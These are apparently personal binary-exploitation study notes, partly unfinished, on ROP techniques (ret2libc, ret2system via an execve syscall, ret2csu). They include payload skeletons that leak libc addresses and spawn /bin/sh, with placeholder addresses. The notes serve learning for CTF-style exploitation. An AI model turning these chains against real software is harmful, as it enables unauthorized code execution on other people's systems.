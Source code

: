
### in progress


ROP
	what is ROP
	how to find Gadgets (ropper)
	how to find Strings in an ELF	
	how to pivote the Stack


# ret2libc (dynamically linked ELF)
```
		to use ret2libc we need to know two things
	
		1. the exact libc version the ELF uses
		2. the base addr of libc in the process
		

		to find the exact version of libc we can leak some GOT entrys which stores pointers to the functions in libc. 
		(we also need this for finding the base of libc in the process)

		since we have the ELF file we can do this with ease as the GOT and PLT sections are known to us (asuming PIE is off)

		```	
		payload = b''
		payload += b'A'*0x10			#padding
		payload += p64(pop_rdi)			#set first arg to the addr of puts@GOT
		payload += p64(puts@GOT)		#addr puts@GOT
		payload += p64(puts@PLT)		#call puts@PLT(puts@GOT)
		```

		this payload will print the libc addr of puts() in the current process.

		puts_leak = `leaked addr here`

		ok now ne know the exact addr of puts() in libc but we still dont know which libc version is used.

		we will use a libc database like https://libc.blukat.me/ to find the exact version
		libc.blucat will find the libc based of the last 3 nibbles of the leaked addr siche these will always be the same 

		`last 3 nibbles of leaked addr here` 

		### BILD VON LIBC.BLUCAT.ME einfuegen ###
		
		usually you need to leak more than one libc function addr or the addr of a known string such as "/bin/sh" to find the exact libc version.

		ok we now know the exact libc version now we can download the libc and calculate the offset from puts() to the base addr of libc in the process
		use `vmmap` to find the libc base

		```
		vmmap output here
		```
		
		know_libc_base = `libc base here`		

		offset = puts_leak - known_libc_base 		known_libc_base as it will change next time the ELF file is run (ASLR)
		libc_base = puts_leak - offset

		ok we now know the libc version and the exact libc_base inside the current process.
		now we can use libc functions such as system("/bin/sh") we can setup the args and than simply call it from libc

		1. setup the argument for system(pointer_binsh) 
		2. call the libc function system()

		payload = b''
		payload += b'A'*0x10			#padding
		payload += p64(pop_rdi)			#set first arg to /bin/sh pointer
		payload += p64(pointer_binsh)		#addr of /bin/sh\x00 in mem
		payload += p64(system)			#call the libc system function

```




# ret2system (statically linked ELF)
```
		`syscall(rax,rdi,rsi,rdx)`	
		we want to call `execve(pointer_binsh,0,0)` to spawn a shell

		so we need to setup a `syscall(execve(pointer_binsh,0,0))`
		
		1. find the syscall number for execve
		2. find a gadget that can write to a pointer like `mov [rdi],rdx`
		3. write b'/bin/sh\x00' to a writable addr.
		4. setup the registers and than syscall

		check this to find syscall numbers `https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86_64-64_bit`
		
		we know the syscall number is 0x3b so we want to call `syscall(0x3b,pointer_binsh,0,0)`

		we need a gadget that can write to a pointer so we can store the `/bin/sh\x00` string somewhere
		we can find such a gadget by using `ropper`

		```
		ropper /1/ mov [r??],r??
		```		

		i choose `mov [rdi],rdx` ... somethink like `mov [rax],rdx` would worked too.
		since we have to set rdi = pointer_binsh and `mov [rdi],rdx` directly writes to rdi we saved some gadgets.
		when using `mov [rax],rdx` we have to `mov rdi,rax` afterwards.



		payload = b''
		payload += b'A'*0x10			#padding

		payload += p64(pop_rax)			#set rax to 0x3b
		payload += p64(0x3b)

		payload += p64(pop_rdi)			#set rdi to a .bss addr .bss is usually `rw-`
		payload += p64(.bss)			#addr where we want to write to

		payload += p64(pop_rdx)			#set rdx to `/bin/sh\x00`
		payload += b`/bin/sh\x00`		#be carefull when you set this allways keep the 0x8 byte pad in mind e.g. when you want to call execve with `/bin/cat\x00`
		
		payload += p64(write_gadget)		#writes the content of rdx = `/bin/sh\x00` into the addr rdi = `.bss` points to
		
		payload += p64(pop_rsi)			#set rsi to 0
		payload += p64(0x00)

		payload += p64(pop_rdx)			#set rdx to 0
		payload += p64(0x00)

		payload += p64(syscall)				

```


# ret2csu(no sufficient gadgets to set rdi,rsi,rdx can be found)
```
		the `__libc_csu_init` function is responsible to initialize libc files.
		in this function there are some interesting gadgets we can use.

		first gadget let us controll some registers with pop
		```
     		__libc_csu_init+90	POP        RBX
        	__libc_csu_init+91	POP        RBP
        	__libc_csu_init+92	POP        R12
        	__libc_csu_init+94 	POP        R13
        	__libc_csu_init+96	POP        R14
	        __libc_csu_init+98 	POP        R15
        	__libc_csu_init+100 	RET
		```

		and this will let us controll rdx,rsi and edi but we need to meet some conditions 
		
		```                	 
        	__libc_csu_init+64	MOV        RDX,R14
        	__libc_csu_init+67 	MOV        RSI,R13
        	__libc_csu_init+70 	MOV        EDI,R12D
        	__libc_csu_init+73	CALL       qword ptr [R15 + RBX*0x8]
        	__libc_csu_init+77	ADD        RBX,0x1
        	__libc_csu_init+81	CMP        RBP,RBX
        	__libc_csu_init+84	JNE        __libc_csu_init+64
        	__libc_csu_init+86	ADD        RSP,0x8
        	__libc_csu_init+90	POP        RBX
        	__libc_csu_init+91	POP        RBP
        	__libc_csu_init+92	POP        R12
        	__libc_csu_init+94 	POP        R13
        	__libc_csu_init+96	POP        R14
	        __libc_csu_init+98 	POP        R15
        	__libc_csu_init+100 	RET
		```

		rbx,rbp,r12,r13,r14,r15

		rdx = r14
		rsi = r13
		edi = r12D
		rip = [r15 + rbx*8] #we use this to syscall
```
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2csu_gadgets.png">







# BROP 

# SROP
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/sigret_frame.png">

